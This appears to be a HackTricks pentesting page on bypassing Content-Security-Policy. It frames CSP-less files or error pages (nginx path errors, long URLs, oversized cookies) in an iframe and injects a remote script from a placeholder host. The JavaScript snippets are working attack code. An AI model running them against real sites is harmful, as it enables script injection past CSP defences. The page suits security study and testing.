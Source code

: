{{#include ../../banners/hacktricks-training.md}}

A configuration such as:

```
Content-Security-Policy: default-src 'self' 'unsafe-inline';
```

Prohibits usage of any functions that execute code transmitted as a string. For example: `eval, setTimeout, setInterval` will all be blocked because of the setting `unsafe-eval`

Any content from external sources is also blocked, including images, CSS, WebSockets, and, especially, JS

### Via Text & Images

It's observed that modern browsers convert images and texts into HTML to enhance their display (e.g., setting backgrounds, centering, etc.). Consequently, if an image or text file, such as `favicon.ico` or `robots.txt`, is opened via an `iframe`, it's rendered as HTML. Notably, these pages often lack CSP headers and may not include X-Frame-Options, enabling the execution of arbitrary JavaScript from them:

```javascript
frame = document.createElement("iframe")
frame.src = "/css/bootstrap.min.css"
document.body.appendChild(frame)
script = document.createElement("script")
script.src = "//example.com/csp.js"
window.frames[0].document.head.appendChild(script)
```

### Via Errors

Similarly, error responses, like text files or images, typically come without CSP headers and might omit X-Frame-Options. Errors can be induced to load within an iframe, allowing for the following actions:

```javascript
// Inducing an nginx error
frame = document.createElement("iframe")
frame.src = "/%2e%2e%2f"
document.body.appendChild(frame)

// Triggering an error with a long URL
frame = document.createElement("iframe")
frame.src = "/" + "A".repeat(20000)
document.body.appendChild(frame)

// Generating an error via extensive cookies
for (var i = 0; i < 5; i++) {
  document.cookie = i + "=" + "a".repeat(4000)
}
frame = document.createElement("iframe")
frame.src = "/"
document.body.appendChild(frame)
// Removal of cookies is crucial post-execution
for (var i = 0; i < 5; i++) {
  document.cookie = i + "="
}
```

After triggering any of the mentioned scenarios, JavaScript execution within the iframe is achievable as follows:

```javascript
script = document.createElement("script")
script.src = "//example.com/csp.js"
window.frames[0].document.head.appendChild(script)
```

## References

- [https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/](https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/)

{{#include ../../banners/hacktricks-training.md}}

